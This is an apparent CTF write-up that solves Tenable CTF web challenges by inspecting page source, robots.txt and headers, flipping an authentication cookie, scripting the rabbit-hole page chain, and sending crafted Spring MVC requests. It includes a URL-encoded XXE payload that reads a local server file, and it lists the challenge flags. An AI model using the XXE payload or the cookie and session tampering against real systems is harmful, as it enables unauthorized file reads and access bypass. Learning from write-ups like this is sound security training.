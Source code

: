 **[Source of All Evil](http://167.71.246.232/)**  
View soure, we got the flag
```
flag{best_implants_ever}
```
**[Headers for you inspiration]((http://167.71.246.232/)**  
Using burp suite to view header, we got the flag
```
flag{headersftw}
```

**[Stay Away Creepy Crawlers](http://167.71.246.232/)**  
Check http://167.71.246.232:8080/robots.txt and we got the flag
```
flag{mr_roboto}
```
**[Show me what you got](http://167.71.246.232/)**  
View source, it has a img src
```html
<img src='/images/doc_jones.png'>
```
Check images folder, we got the flag in http://167.71.246.232/images/aljdi3sd.txt
```
flag{disable_directory_indexes}
```

**[Can't find it](http://167.71.246.232/)**  
Just go somewhere Page not found and we got
```
flag{404_oh_no}
```

**[Ripper Doc](http://167.71.246.232/)**  
Go to first link in menu http://167.71.246.232/certified_rippers.php  
We have a hint
```
Sorry, gotta be in the club to get this list.
```
Check cookie and change <i>authenticated</i> to True, we got the flag
```
flag{messing_with_cookies}
```

**[Follow The Rabbit Hole](http://167.71.246.232/)**  
Write the code to follow page
```python
import requests

url = 'http://167.71.246.232:8080/rabbit_hole.php?page='
code = 'cE4g5bWZtYCuovEgYSO1'
i = 0;
while i < 1:
    x = requests.get(url+code)
    code = x.text.split(' ')[2]
    print(x.text)
    i = i + 1
```
Notice that i = 1582, this will end, and the first parameter is less than 1582, so assume it is a index, and the second parameter is a value
```python
import requests

url = 'http://167.71.246.232:8080/rabbit_hole.php?page='
code = 'cE4g5bWZtYCuovEgYSO1'
i = 0;
a = ['0' for i in range(1582)]
while i < 15:
    x = requests.get(url+code)
    code = x.text.split(' ')[2]
    para1 = int(x.text.split(', ')[0].split('[')[1])
    para2 = x.text.split(', \'')[1].split('\']')[0]
    a[para1] = para2
    i = i + 1
s = ''
for c in a:
    s = s + c
print(s)
```
Using [Cyberchef](https://gchq.github.io/CyberChef/) to check this. It's a png image  
![img](https://lhtthao0430.github.io/web/tenable/FollowTheRabbitHole.png)  
We got
```
flag{automation_is_handy}
```

**[Send A Letter](http://challenges.ctfd.io:30471/)**  
View source, in line 34 it send a get request  
```
$.get("send_letter.php?letter="+letter, function(data, status){
			alert("Data: " + data + "\nStatus: " + status);
		});
```
In line 13 it uses xml
```
var letter = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>";
```
We can use XXE attack
```html
xml%20version=%221.0%22%20encoding=%22ISO-8859-1%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///tmp/messages_outbound.txt%22%3E%20]%3E%3Cletter%3E%3Cname%3E%26xxe;%3C/name%3E%3C/letter%3E
```
We got the flag
```
flag{xxe_aww_yeah}
```

**[Source code](https://lhtthao0430.github.io/web/tenable/tenable-ctf-spring-mvc-app.zip) and [Web](http://challenges.ctfd.io:30542/) for Sprint MVC**  
**Spring MVC 1**  
After view source code, send GET request to http://challenges.ctfd.io:30542/main to get the flag
```
flag{flag1_517d74}
```
**Spring MVC 2**  
Send POST request to http://challenges.ctfd.io:30542/main with body
```
magicWord=abc
```
```
flag{flag2_de3981}
```
**Spring MVC 3**  
Send POST request to http://challenges.ctfd.io:30542/main with body
```
magicWord=please
```
```
flag{flag3_0d431e}
```
**Spring MVC 4**  
Send post request to http://challenges.ctfd.io:30542/main with content-type
```
Content-type=application/json
```
```
flag{flag4_695954}
```
**Spring MVC 5**  
Send OPTIONS request to http://challenges.ctfd.io:30542/main with content-type
```
Content-type=application/json
```
```
flag{flag5_70102b}
```
**Spring MVC 6**  
Send GET request to http://challenges.ctfd.io:30542/main with headers
```
Magic-Word=please
```
```
flag{flag6_ca1ddf}
```
**Spring MVC 7**  
View source code tenable-ctf-spring-mvc-app\src\main\resources\templates\.hello.html, we see
```html
<p th:if="${name == 'please'}">
<span class="hidden" th:text="${@flagService.getFlag('hidden_flag')}" />
</p>
```  
Send GET request to http://challenges.ctfd.io:30542?name=please  
```
flag{hidden_flag_1dbc4}
```
**Spring MVC 8**  
View source code tenable-ctf-spring-mvc-app\src\main\resources\templates\.hello.html, we see
```html
<p th:if="${#session.getAttribute('realName') == 'admin'}">
<span th:text="${#session.getAttribute('sessionFlag')}" />
</p>
```  
And we have other controller, that will set session realName for us
```java
@GetMapping("/other")
public String index(@RequestParam(name="name", required=false, defaultValue="user") String realName, HttpSession session, Model model) {
    session.setAttribute("realName", realName);
    model.addAttribute("name", realName);
    return "hello";
}
```
Send GET request to http://challenges.ctfd.io:30542/other?name=admin  
After that, send GET request to http://challenges.ctfd.io:30542/ and get the flag
```
flag{session_flag_0dac2c}
```